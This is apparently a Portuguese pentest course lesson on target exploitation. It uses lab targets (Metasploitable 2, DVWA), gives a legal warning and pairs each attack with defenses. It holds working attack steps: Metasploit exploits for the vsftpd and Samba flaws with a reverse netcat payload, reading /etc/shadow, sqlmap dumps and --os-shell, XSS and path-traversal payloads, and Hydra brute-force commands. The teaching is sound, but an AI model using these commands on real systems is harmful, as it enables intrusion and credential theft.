





# Exploração do Alvo

> [!quote] A Invasão Propriamente Dita
> *A exploração do alvo é o ato de "invadir" uma máquina usando exploits ou explorando falhas de configuração.*

> [!warning] ⚖️ Ética e Legalidade: Obrigatório Ler
> Todo conteúdo desta aula é aplicável **exclusivamente em ambientes de laboratório controlados** (Metasploitable, DVWA, OWASP Juice Shop, HackTheBox, TryHackMe, PortSwigger Web Academy) com **autorização explícita**.
>
> Explorar sistemas de terceiros sem autorização configura crime tipificado no **Art. 154-A do Código Penal** (Lei 12.737/2012, "Lei Carolina Dieckmann"):
> - Pena base: reclusão de **1 a 4 anos** + multa
> - Com prejuízo econômico: acréscimo de 1/3 a 2/3
> - Com obtenção de dados privados/sigilosos: reclusão de **2 a 5 anos** + multa
>
> **Pentest legal** exige contrato de escopo assinado pelo proprietário do sistema (Rules of Engagement). Sem autorização escrita, não existe "teste educacional" que justifique o acesso.

---

## 🗺️ Fluxo Geral de Exploração



---

## 🛠️ Ferramentas Utilizadas

- **Metasploit Framework**: O principal framework gratuito de exploração
- **sqlmap**: Automação de SQL Injection
- **Burp Suite** (Community/Professional): Proxy de interceptação para web
- **Hydra**: Brute force de credenciais em múltiplos protocolos
- **Netcat / pwncat**: Listeners para reverse shells
- **searchsploit**: Busca offline no banco do Exploit-DB

---

## 🎯 Formas de Exploração

A exploração acontece de duas formas principais:

| Tipo | Descrição |
|------|-----------|
| **Engenharia Social** | Não é necessária a existência de vulnerabilidades técnicas |
| **Falha de Software** | Serviço ou configuração vulnerável |

> [!info] Evolução dos Exploits
> Antigamente, buscar exploits era difícil e as fontes eram duvidosas. Hoje, existem repositórios específicos e confiáveis.

---

## 📚 Repositórios de Exploits

> [!tip] Fontes Gratuitas
> A maioria dos repositórios de exploits são gratuitos.

| Repositório | URL |
|-------------|-----|
| **Exploit-DB** | [exploit-db.com](http://www.exploit-db.com/) |
| **PacketStorm** | [packetstormsecurity.com](http://packetstormsecurity.com/) |
| **SecurityFocus** | [securityfocus.com](http://www.securityfocus.com/) |
| **1337day** | [www1337day.com](http://www1337day.com/) |
| **OSVDB** | [osvdb.org](http://osvdb.org/) |
| **SecuriTeam** | [securiteam.com](http://securiteam.com/) |
| **Intelligent Exploit** | [intelligentexploit.com](http://www.intelligentexploit.com/) |
| **CERT Vuls** | [kb.cert.org/vuls](http://www.kb.cert.org/vuls) |

> [!warning] Repositório Pago
> VUPEN: [vupen.com](http://www.vupen.com/) (comercial)

---

## 💥 Introdução aos Exploits

> [!info] O que é um Exploit?
> Um exploit é um pedaço de software, conjunto de dados ou sequência de comandos que aproveita uma **falha ou vulnerabilidade** para causar comportamento não intencional.

### Tipos Mais Comuns de Exploits

| Tipo | Descrição |
|------|-----------|
| **Buffer Overflow** | Sobrescreve memória ao escrever mais dados que o buffer suporta |
| **Injection** | Insere código malicioso (SQL Injection, XSS) |
| **Zero-day** | Explora vulnerabilidade desconhecida, sem patch disponível |
| **Privilege Escalation** | Obtém privilégios elevados (admin) através de bugs |
| **Remote Code Execution (RCE)** | Executa comandos remotamente no sistema alvo |
| **Denial of Service (DoS)** | Torna sistema indisponível por sobrecarga |

> [!tip] Nota
> Muitos exploits combinam várias categorias. Um buffer overflow pode permitir RCE, e um SQL injection pode levar a privilege escalation.

---

## 🔓 Vulnerabilidades

> [!info] Definição
> Uma vulnerabilidade é uma **fraqueza** que pode ser explorada para violar a integridade, disponibilidade ou confidencialidade de um sistema.

### Tipos de Vulnerabilidades

- **Software**: Bugs ou erros de programação
- **Hardware**: Falhas em componentes físicos
- **Configuração**: Configurações inseguras
- **Design**: Falhas na arquitetura do sistema

### Ciclo de Gerenciamento

1. **Descoberta**: Pentests, varreduras, auditorias, análise de código
2. **Classificação**: Avaliação de gravidade (CVSS)
3. **Priorização**: Qual corrigir primeiro?
4. **Mitigação**: Patches, reconfiguração, firewalls, IDS/IPS

### CVE: Common Vulnerabilities and Exposures

> [!info] Identificação Padronizada
> Sistema que fornece referência única para vulnerabilidades conhecidas.

**Formato:** `CVE-AAAA-BBBB`
- **AAAA**: Ano de divulgação
- **BBBB**: Número único

**Exemplo:** `CVE-2021-34527` (PrintNightmare)

---

## 🤖 Metasploit Framework

> [!success] O Melhor Framework Gratuito
> O Metasploit Framework (MSF) é o melhor framework gratuito para **desenvolver**, **testar** e **usar** exploits.

### Arquitetura

O Metasploit é dividido em 3 categorias:

| Categoria | Descrição |
|-----------|-----------|
| **Bibliotecas** | Base de código do framework |
| **Interfaces** | Meios de interação (msfconsole, Armitage) |
| **Módulos** | Exploits, payloads, auxiliares |

### Descrição dos Módulos

| Módulo | Função |
|--------|--------|
| **Exploit** | Prova de conceito que a vulnerabilidade existe |
| **Payload** | Código que executa comandos no alvo (ex: shell reverso) |
| **Shellcode** | Código que causa buffer overflow |
| **Auxiliares** | Ferramentas auxiliares (scanners, sniffers, DoS) |
| **Encoders** | Burlar antivírus, firewalls, IDS |

> [!info] Outros Frameworks
> Existem frameworks pagos como Core Impact, Immunity Canvas, Cobalt Strike e PowerShell Empire. Mas o Metasploit é gratuito, open-source e frequentemente atualizado.

---

## 💻 Comandos Essenciais do Metasploit

| Comando | Função |
|---------|--------|
| `search` | Procurar ferramentas e exploits |
| `use` | Selecionar um exploit |
| `show options` | Mostrar opções do exploit |
| `set` | Configurar um parâmetro |
| `exploit` ou `run` | Executar o exploit |
| `sessions -l` | Listar sessões abertas |
| `sessions -i <N>` | Interagir com sessão N |
| `background` | Enviar sessão atual para background |
| `info` | Mostrar detalhes do módulo selecionado |

---

## 🚀 Utilização do Metasploit

### Atualização

```bash
sudo apt update; sudo apt install metasploit-framework
```

### Escaneamento com Nmap

Antes de usar o Metasploit, escaneie a rede para descobrir alvos:

```bash
# Escanear range de IPs (ignorar firewalls)
nmap -PN 192.168.0.1-255

# Verificar versões de serviços
nmap -sV 192.168.0.10 -p 80,443

# Escanear todos os serviços com detecção de OS e scripts padrão
nmap -sC -sV -O 192.168.0.10

# Escanear todas as portas (demorado, mas completo)
nmap -p- 192.168.0.10
```

### Iniciando o Metasploit

```bash
sudo msfconsole -q
```

### Pesquisando Exploits

```bash
# Buscar exploits para Apache 2.2.8
searchsploit apache 2.2.8

# Filtrar resultados
searchsploit apache 2.2.8 | grep php

# Pesquisar dentro do msfconsole
msf6 > search vsftpd
msf6 > search type:exploit platform:linux samba
msf6 > search cve:2021-34527
```

### Usando um Exploit

```bash
# Selecionar exploit
use exploit/multi/http/php_cgi

# Definir alvo
set RHOSTS 192.168.18.47

# Executar
run
```

---

## ⭐ Exploits Populares

> [!tip] Exploits de Estimação
> Alguns exploits clássicos que todo pentester conhece:

- `smb_ms17_010`: Scanner para EternalBlue
- `exploit/windows/smb/ms17_010_eternalblue`: EternalBlue (WannaCry)

---

## 🖥️ Comandos Pós-Exploração

Após conseguir acesso (shell), comandos úteis:

```bash
# Informações do sistema
sysinfo

# Verificar privilégios
getuid

# Listar processos
ps

# Migrar para outro processo
migrate [PID]

# Capturar screenshot
screenshot
```

---

## 🔥 Exploração Prática no Metasploitable 2

O **Metasploitable 2** é uma máquina virtual Ubuntu intencionalmente vulnerável, ideal para praticar exploração em laboratório. Ela expõe dezenas de serviços vulneráveis na rede local.

> [!warning] Isolamento de Rede
> Configure o Metasploitable em modo **Host-Only** ou **Internal Network** no VirtualBox/VMware. **Nunca** conecte-o diretamente à internet ou a redes reais, pois ele não possui nenhuma proteção.

### Diagrama do Workflow Metasploit



### Exploração do vsftpd 2.3.4 (Backdoor FTP)

O vsftpd 2.3.4 contém uma backdoor inserida por um invasor desconhecido no código-fonte oficial. Quando o usuário envia um nome de usuário terminado com `:)` (sorriso), o daemon abre uma shell com privilégios de root na porta 6200.

**CVE:** CVE-2011-2523

```bash
# 1. Confirmar serviço FTP vulnerável
nmap -sV -p 21 192.168.56.101
# Resultado esperado: vsftpd 2.3.4

# 2. Abrir msfconsole
sudo msfconsole -q

# 3. Buscar o módulo
msf6 > search vsftpd

# 4. Selecionar o exploit
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 5. Ver opções
msf6 exploit(vsftpd_234_backdoor) > show options

# 6. Configurar alvo
msf6 exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.56.101

# 7. Executar
msf6 exploit(vsftpd_234_backdoor) > exploit

# Resultado esperado:
# [*] 192.168.56.101:21 - Banner: 220 (vsFTPd 2.3.4)
# [*] 192.168.56.101:21 - USER: 331 Please specify the password.
# [+] 192.168.56.101:21 - Backdoor service has been spawned, handling...
# [+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
# [*] Found shell.
# [*] Command shell session 1 opened
```

```bash
# 8. Verificar acesso root
id
# uid=0(root) gid=0(root) groups=0(root)

uname -a
# Linux metasploitable 2.6.24-16-server

cat /etc/passwd
```

**Defesa contra vsftpd backdoor:**
- Atualizar para versão sem backdoor (vsftpd >= 2.3.5 limpo ou substituir por ProFTPd/Pure-FTPd)
- Desabilitar FTP se não for essencial; usar SFTP (SSH) em vez de FTP
- Monitorar conexões na porta 6200 (IOC direto do exploit)
- IDS/IPS com assinatura para `USER :)` no tráfego FTP

### Exploração do Samba 3.0.20 (Username Map Script)

O Samba 3.0.20 é vulnerável ao exploit `usermap_script`, que permite injeção de comandos via campo de nome de usuário durante autenticação.

**CVE:** CVE-2007-2447

```bash
# 1. Confirmar Samba vulnerável
nmap -sV -p 139,445 192.168.56.101
# Resultado: Samba smbd 3.0.20

# 2. No msfconsole, buscar o exploit
msf6 > search samba usermap

# 3. Selecionar módulo
msf6 > use exploit/multi/samba/usermap_script

# 4. Configurar
msf6 exploit(usermap_script) > set RHOSTS 192.168.56.101
msf6 exploit(usermap_script) > set LHOST 192.168.56.100
# (IP da máquina Kali)

# 5. Selecionar payload de shell reversa
msf6 exploit(usermap_script) > set payload cmd/unix/reverse_netcat

# 6. Executar
msf6 exploit(usermap_script) > exploit

# Resultado esperado:
# [*] Started reverse TCP handler on 192.168.56.100:4444
# [*] Command shell session 2 opened (192.168.56.100:4444 -> 192.168.56.101:...)
```

```bash
# 7. Confirmar acesso
id
# uid=0(root) gid=0(root)

hostname
# metasploitable
```

**Defesa contra usermap_script:**
- Atualizar Samba para versão >= 3.0.25c (patch disponível desde 2007)
- Restringir acesso SMB ao firewall (portas 139/445 apenas para hosts confiáveis)
- Desabilitar autenticação anônima no Samba
- Habilitar logging de autenticação: `log level = 3` no `smb.conf`

### Tabela de Vulnerabilidades do Metasploitable 2

| Serviço | Versão | CVE | Módulo MSF | Impacto | Defesa |
|---------|--------|-----|------------|---------|--------|
| vsftpd | 2.3.4 | CVE-2011-2523 | `exploit/unix/ftp/vsftpd_234_backdoor` | Shell root | Atualizar/desabilitar FTP |
| Samba | 3.0.20 | CVE-2007-2447 | `exploit/multi/samba/usermap_script` | Shell root | Atualizar Samba |
| distccd | 3.1 | CVE-2004-2687 | `exploit/unix/misc/distcc_exec` | RCE como daemon | Desabilitar distccd |
| UnrealIRCd | 3.2.8.1 | CVE-2010-2075 | `exploit/unix/irc/unreal_ircd_3281_backdoor` | Shell root | Remover serviço IRC |
| PHP CGI | 5.3.x | CVE-2012-1823 | `exploit/multi/http/php_cgi_arg_injection` | RCE | Atualizar PHP |

> [!example] 🧪 Atividade 1: Explorar vsftpd no Metasploitable
>
> **Objetivo:** Obter shell root no Metasploitable 2 via backdoor do vsftpd 2.3.4.
>
> **Pré-requisitos:**
> - VM Kali Linux (atacante) em rede Host-Only
> - VM Metasploitable 2 (alvo) na mesma rede Host-Only
> - Descobrir o IP do Metasploitable com `nmap -sn 192.168.56.0/24`
>
> **Passo 1: Descoberta**
> ```bash
> nmap -sC -sV -p 21,22,139,445 192.168.56.101
> ```
> Confirmar `vsftpd 2.3.4` na porta 21.
>
> **Passo 2: Exploração**
> ```bash
> sudo msfconsole -q
> msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
> msf6 exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.56.101
> msf6 exploit(vsftpd_234_backdoor) > exploit
> ```
>
> **Passo 3: Pós-exploração**
> ```bash
> id
> cat /etc/shadow | head -5
> uname -a
> ```
>
> **Prova de sucesso:** Shell aberto com `uid=0(root)`. Copie a saída de `id` e `cat /etc/shadow | head -3` como evidência.
>
> **Repita com Samba:** use `exploit/multi/samba/usermap_script` com `set payload cmd/unix/reverse_netcat` e `set LHOST <seu IP>`.

---

## 💉 SQL Injection com sqlmap

**SQL Injection** é uma das vulnerabilidades mais comuns e críticas em aplicações web (OWASP Top 10: A03:2021). Ocorre quando dados fornecidos pelo usuário são inseridos diretamente em queries SQL sem sanitização.

### Por que SQL Injection é Perigoso?

```sql
-- Query vulnerável no servidor (PHP típico)
$query = "SELECT * FROM users WHERE id = " . $_GET['id'];

-- Usuário envia: 1 OR 1=1
-- Query resultante:
SELECT * FROM users WHERE id = 1 OR 1=1
-- Retorna TODOS os usuários
```

### Tipos de SQL Injection

| Tipo | Descrição | Detectável por |
|------|-----------|----------------|
| **In-band (Union-based)** | Resultado aparece diretamente na página | Erro SQL ou dados retornados |
| **Blind Boolean-based** | Resposta muda conforme condição (true/false) | Comparação de respostas |
| **Blind Time-based** | Usa `SLEEP()` para deduzir informação | Tempo de resposta |
| **Out-of-band** | Dados exfiltrados por canal externo (DNS, HTTP) | Tráfego de saída |
| **Error-based** | Mensagens de erro revelam estrutura do banco | Mensagens de erro SQL |

### Testando SQLi Manualmente

Antes de usar o sqlmap, é fundamental entender o teste manual:

```
# Entrada no campo de ID:
1'              -- Gera erro SQL? Se sim, pode ser vulnerável
1' OR '1'='1    -- Retorna todos os registros?
1' AND 1=2--    -- Retorna zero registros?
1' UNION SELECT null,null,null--  -- Testa número de colunas
```

### sqlmap no DVWA

O **DVWA (Damn Vulnerable Web Application)** é uma aplicação PHP/MySQL propositalmente vulnerável, ideal para praticar SQLi.

```bash
# 1. Obter cookie de sessão do DVWA (via browser ou Burp)
# Cookie formato: PHPSESSID=abc123xyz; security=low

# 2. Testar se o parâmetro é vulnerável
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123xyz; security=low" \
  --batch

# 3. Listar todos os bancos de dados
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123xyz; security=low" \
  --batch --dbs

# Resultado esperado:
# available databases [3]:
# [*] dvwa
# [*] information_schema
# [*] mysql

# 4. Listar tabelas do banco dvwa
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123xyz; security=low" \
  --batch -D dvwa --tables

# Resultado esperado:
# Database: dvwa
# [2 tables]:
# +----------+
# | guestbook|
# | users    |
# +----------+

# 5. Despejar a tabela de usuários (com hashes de senha!)
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123xyz; security=low" \
  --batch -D dvwa -T users --dump

# Resultado esperado:
# +----+-------+----------------------------------+----------+
# | id | user  | password                         | ...      |
# +----+-------+----------------------------------+----------+
# | 1  | admin | 5f4dcc3b5aa765d61d8327deb882cf99 | ...      |
# +----+-------+----------------------------------+----------+
# (hash MD5 de "password")
```

> [!tip] Decodificando Hashes MD5
> O sqlmap frequentemente tenta quebrar hashes automaticamente com dicionário embutido. Você também pode usar:
> ```bash
> # Online: crackstation.net
> # Local com hashcat:
> hashcat -m 0 5f4dcc3b5aa765d61d8327deb882cf99 /usr/share/wordlists/rockyou.txt
> ```

### Opções Avançadas do sqlmap

```bash
# Testar todos os parâmetros de um formulário POST
sqlmap -u "http://alvo/login.php" --data="user=admin&pass=test" --batch --dbs

# Bypass de WAF (Web Application Firewall) com tamper scripts
sqlmap -u "http://alvo/page.php?id=1" --tamper=space2comment,between --level=3 --risk=2

# Dump completo de banco (use com cuidado em avaliações reais)
sqlmap -u "http://alvo/page.php?id=1" --cookie="..." --dump-all --batch

# Tentar obter shell via SQLi (MySQL com FILE privilege)
sqlmap -u "http://alvo/page.php?id=1" --cookie="..." --os-shell
```

**Defesa contra SQL Injection:**
- **Prepared Statements / Parametrized Queries** (solução primária): nunca concatenar input do usuário em SQL
- **ORMs** (Eloquent, Hibernate, SQLAlchemy): abstraem queries e evitam concatenação
- **WAF** (ModSecurity, Cloudflare): detecta padrões SQLi
- **Princípio do mínimo privilégio**: usuário do banco só lê/escreve no necessário, sem `FILE`, `DROP`, `GRANT`
- **Validação de entrada**: whitelist de caracteres permitidos
- **Mensagens de erro genéricas**: nunca expor estrutura do banco ao usuário

> [!example] 🧪 Atividade 2: sqlmap no DVWA
>
> **Objetivo:** Extrair usuários e hashes de senha do banco DVWA usando sqlmap.
>
> **Pré-requisitos:**
> - DVWA rodando (no Metasploitable ou Docker: `docker run -d -p 80:80 vulnerables/web-dvwa`)
> - Acessar `http://<IP>/dvwa/` via browser, login `admin/password`, setar Security Level para "Low"
> - Copiar o cookie `PHPSESSID` do browser (F12 > Application > Cookies)
>
> **Passo 1: Confirmar vulnerabilidade**
> Acesse `http://<IP>/dvwa/vulnerabilities/sqli/?id=1'&Submit=Submit` no browser. Se aparecer erro SQL, o campo é vulnerável.
>
> **Passo 2: Extrair bancos**
> ```bash
> sqlmap -u "http://<IP>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
>   --cookie="PHPSESSID=<seu_cookie>; security=low" \
>   --batch --dbs
> ```
>
> **Passo 3: Extrair usuários**
> ```bash
> sqlmap -u "http://<IP>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
>   --cookie="PHPSESSID=<seu_cookie>; security=low" \
>   --batch -D dvwa -T users --dump
> ```
>
> **Prova de sucesso:** Tabela `users` exibida com hashes MD5. Tente decifrar o hash do admin em `crackstation.net`.

---

## 🌐 Exploração Web com Burp Suite

O **Burp Suite** é o proxy de interceptação mais usado em pentest web. Ele se posiciona entre o browser e o servidor, permitindo inspecionar, modificar e repetir requisições HTTP.

### Configuração do Proxy

```
Browser (Firefox/Chrome):
  Proxy HTTP: 127.0.0.1:8080
  Proxy HTTPS: 127.0.0.1:8080

Burp Suite:
  Proxy > Options > Listener: 127.0.0.1:8080
  Proxy > Intercept: ON (para capturar) / OFF (para passar)
```

Para HTTPS, instale o certificado CA do Burp no browser:
```
http://burp/ → CA Certificate → Importar no browser como CA confiável
```

### Workflow de Interceptação e Replay



### Técnicas Essenciais no Burp

#### Repeater: Replay e Manipulação de Parâmetros

```
1. Interceptar request no Proxy
2. Clique direito > "Send to Repeater"
3. Na aba Repeater: modificar parâmetros manualmente
4. Clicar "Send" para reenviar
5. Comparar respostas lado a lado
```

Uso prático: testar SQLi manualmente, forçar bypass de autenticação, IDOR (Insecure Direct Object Reference).

#### Intruder: Fuzzing e Brute Force

```
1. Interceptar request de login
2. Clique direito > "Send to Intruder"
3. Aba "Positions": selecionar campo de senha (§password§)
4. Aba "Payloads": carregar wordlist (rockyou.txt, top-1000-passwords.txt)
5. Iniciar ataque > analisar coluna "Length" (resposta diferente = sucesso)
```

> [!warning] Limite de Velocidade na Versão Community
> O Burp Suite Community Edition tem rate limit no Intruder. Para brute force em velocidade real, use o **Hydra** (veja seção abaixo).

#### Identificando Vulnerabilidades Comuns

```bash
# XSS Reflected: injetar no parâmetro GET
http://alvo/busca?q=<script>alert('XSS')</script>

# Path Traversal: tentar acessar arquivos do sistema
http://alvo/download?file=../../../../etc/passwd

# IDOR: trocar ID de outro usuário
http://alvo/perfil?id=1  ->  http://alvo/perfil?id=2

# Open Redirect:
http://alvo/redirect?url=http://malicioso.com
```

**Defesa contra vulnerabilidades web:**
- XSS: escapar saída HTML (`htmlspecialchars()` em PHP, `.textContent` em JS), Content Security Policy (CSP)
- Path Traversal: validar e normalizar paths, usar allowlist de diretórios
- IDOR: verificar autorização no servidor (não apenas no cliente) para cada objeto acessado
- Open Redirect: rejeitar URLs absolutas, usar apenas paths relativos internos

---

## 🔑 Brute Force com Hydra

O **Hydra** é uma ferramenta de brute force que suporta mais de 50 protocolos: SSH, FTP, HTTP, RDP, SMB, Telnet, MySQL, entre outros.

### Sintaxe Geral

```bash
hydra -l <usuario> -P <wordlist> <ip> <protocolo>
hydra -L <lista_usuarios> -P <wordlist> <ip> <protocolo>
```

| Flag | Significado |
|------|-------------|
| `-l` | Username único |
| `-L` | Lista de usernames |
| `-p` | Senha única |
| `-P` | Wordlist de senhas |
| `-t` | Threads paralelos (default 16) |
| `-V` | Verbose: mostrar cada tentativa |
| `-f` | Parar ao encontrar primeiro resultado |
| `-s` | Porta customizada |

### Wordlists Padrão no Kali

```bash
ls /usr/share/wordlists/
# rockyou.txt.gz  (14 milhões de senhas)

gzip -d /usr/share/wordlists/rockyou.txt.gz
# Descompactar se necessário
```

### Exemplos de Brute Force por Protocolo

```bash
# SSH
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.101 -t 4 -f

# FTP
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.56.101 -f

# Telnet
hydra -l root -P /usr/share/wordlists/rockyou.txt telnet://192.168.56.101

# HTTP POST (formulário de login web)
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.56.101 \
  http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" \
  -f -V

# HTTP GET (autenticação básica)
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  http-get://192.168.56.101/protected/ \
  -f

# MySQL
hydra -l root -P /usr/share/wordlists/rockyou.txt \
  mysql://192.168.56.101 -f
```

> [!info] Entendendo o http-post-form
> O formato é `"<URL>:<POST_data>:<string_de_falha>"`:
> - `^USER^` e `^PASS^` são os placeholders para usuário e senha
> - A string de falha é um trecho do HTML que aparece quando o login **falha** (ex: "Login failed", "Invalid credentials")
> - Capture a requisição de login com Burp Suite para obter o POST data correto

**Defesa contra brute force:**
- **Rate limiting**: bloquear IP após N tentativas falhas (fail2ban, nginx `limit_req`)
- **Multi-Factor Authentication (MFA)**: mesmo com senha vazada, segundo fator protege
- **CAPTCHA**: dificulta automação
- **Senhas fortes**: comprimento >= 14 caracteres, combinando tipos (ver NIST SP 800-63B)
- **Account lockout**: bloquear conta temporariamente após tentativas falhas
- **Alertas de login suspeito**: notificar usuário de tentativas não reconhecidas

---

## 🐚 Reverse Shells

Um **reverse shell** é uma técnica onde o **alvo se conecta de volta ao atacante**, abrindo um canal de comando. É o oposto de um bind shell, onde o atacante se conecta à porta aberta no alvo.

Por que usar reverse shell? Firewalls normalmente bloqueiam conexões **de fora para dentro**, mas permitem conexões **de dentro para fora**. O reverse shell contorna esse bloqueio.

### Fluxo do Reverse Shell



### Configurar Listener no Kali

